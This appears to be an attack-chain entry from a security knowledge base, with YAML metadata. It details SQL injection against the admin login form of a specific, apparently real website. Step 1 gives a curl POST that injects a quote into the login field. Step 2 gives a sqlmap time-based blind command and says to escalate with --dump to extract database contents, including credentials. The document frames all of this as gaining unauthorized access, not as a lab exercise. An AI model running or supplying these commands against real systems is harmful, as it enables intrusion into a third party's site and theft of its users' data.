

---
tags:
  - sqli
  - web
  - mysql
  - php
  - blind-sqli
type: attack_chain
tools:
  - '[[tools/sqlmap]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
commands:
  - '[[commands/manual-sqli-test-post]]'
  - '[[commands/sqlmap-time-based-payload]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T12:00:00Z'
procedures:
  - '[[procedures/Manual-SQL-Injection-Testing-in-Login-Form]]'
  - '[[procedures/Automated-SQL-Injection-Confirmation-with-sqlmap]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:26.155Z'
description: >-
  A multi-step attack exploiting SQL injection in the administrator login form
  of a PHP/MySQL web application to confirm vulnerability and enable data
  extraction.
skill_level: intermediate
impact_level: high
id: 19f8e258-ce99-4246-a8a3-4d3085e15970
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SQL Injection in Admin Login Panel Leading to Unauthorized Database Access

Multi-stage attack chain demonstrating exploitation of SQL injection in a web application's admin login to gain unauthorized access to database contents.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/sqlmap]]
- Web browser or curl for manual testing

### Target Environment

- Web platform with PHP/MySQL backend
- Accessible admin login endpoint (e.g., /webadmin/index.php)
- No authentication required for initial access

### Initial Access Requirements

- Public network access to the target web application
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Manual Vulnerability Testing
procedure: [[procedures/Manual-SQL-Injection-Testing-in-Login-Form]]

**Objective**: Test the admin login form for SQL injection by injecting a single quote to break out of the SQL query structure.

**Instructions**: Use [[commands/manual-sqli-test-post]] to send a manipulated POST request to the login endpoint:

```bash
curl -X POST https://mtngbissau.com/webadmin/index.php \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "login=user'&pass=uesse"
```

Monitor the response for SQL errors or unusual behavior indicating injection success.

**Expected Output**: HTTP response with potential SQL syntax error or altered page behavior confirming injection point.

**Success Indicators**:
- Presence of SQL error messages in response
- Application delay or crash suggesting query disruption

### Step 2: Automated Confirmation and Exploitation
procedure: [[procedures/Automated-SQL-Injection-Confirmation-with-sqlmap]]

**Objective**: Confirm the SQL injection vulnerability using automated tooling and prepare for data extraction via time-based blind techniques.

**Instructions**: First, capture the vulnerable POST request in a file (e.g., request.txt). Then run sqlmap with [[commands/sqlmap-time-based-payload]] targeting the login parameter:

```bash
sqlmap -r request.txt --dbms=mysql -p login --technique=T --delay=5
```

This uses a SLEEP(5) payload to detect time-based blind SQLi. If confirmed, escalate to dump database contents with `--dump`.

**Expected Output**: sqlmap output showing 5-second response delay, confirming MySQL time-based blind SQLi, followed by database schema enumeration.

**Success Indicators**:
- Response delay matching payload (e.g., 5 seconds)
- sqlmap identification of injectable parameter and DBMS (MySQL)

## Attack Chain Summary

### Key Achievements

1. Identified SQL injection in admin login POST parameter
2. Confirmed blind SQLi allowing arbitrary query execution
3. Enabled potential exfiltration of sensitive data like user credentials

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T12:00:00Z*
